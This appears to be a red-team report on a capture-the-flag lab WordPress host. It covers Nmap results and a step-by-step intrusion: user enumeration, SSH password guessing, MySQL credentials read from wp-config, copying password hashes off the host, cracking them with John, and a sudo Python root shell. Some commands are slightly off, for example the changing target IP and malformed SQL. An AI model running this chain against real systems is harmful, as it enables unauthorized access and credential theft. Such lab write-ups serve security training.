 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services


Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV 192.168.1.110 #
  # (SCAN LOCATED IN GOOGLE DRIVE)
```

This scan identifies the services below as potential points of entry:
- Target 1
  - 22/tcp  OpenSSH 6.7p1 Debian 
  - 80/tcp  Apache https 2.4.1
  - 111/tcp rocbind 2-4 
  - 139/tcp netbios-ssn Samba smbd 
  - 445/tcp netbios-ssn Samba smbd 



The following vulnerabilities were identified on each target:
- Target 1
  - CWE-521 Weak user password
  - User Enumeration
  - Privilege Escalation  
  - Unsalted user password hash in MySql
  - Open Port 22 
  - wp-config in default location


### Exploitation


The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33ellb80be759c4e844862482d
    - ** Exploit Used **
      - Wordpress scan to enumerate all users
      - wpscan --url http://192.168.1.110 --enumerate
    - After receiving information on users, we can then guess Michael's password with a brute force attack
      - ssh Michael@192.168.1.110
      - password: michael 
      - flag 1 found in var/www/html/
      - nano service.html
       
  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Same exploit as flag 1
      - ssh Michael@192.168.1.110
      - locate *flag*.txt 
      - cd /var/www
      - ls -l 
      - cat flag2.txt


    - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Wordpress configuration and MySQL exploit
      - First, we located login details for the mysql database in the wp-config.php file
      - Flag 3 was then found in the wp_posts table
      - mysql -uroot -p
      - R@v3nSecurity
      - show databases;
      - use Wordpress;
      - show tables; 
      - select * wp_posts 


  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Privilege Escalation
      - Within the same database, we were able to locate 2 unsalted hashes for Michael and Steven
      - mysql -uroot -p
      - R@v3nSecurity
      - show databases;
      - use Wordpress;
      - show tables; 
      - select * from wp_user into hashes.txt
      - After saving the query into the hashes.txt file, we can then exfiltrate the file back onto our kali machine
      - scp -r Michael@192.168.1.110:/home/hashes.txt ~/.
      - We can then use John to crack the unsalted hashes after editing the file with nano
      - John hashes.txt
      - This reveals a password for Steven "pink84"
      - ssh steven@192.168.1.105
      - pink84 
      - To then create a interactive shell we use the following command
      - sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
      - flag4 is then located in the root directory 
       
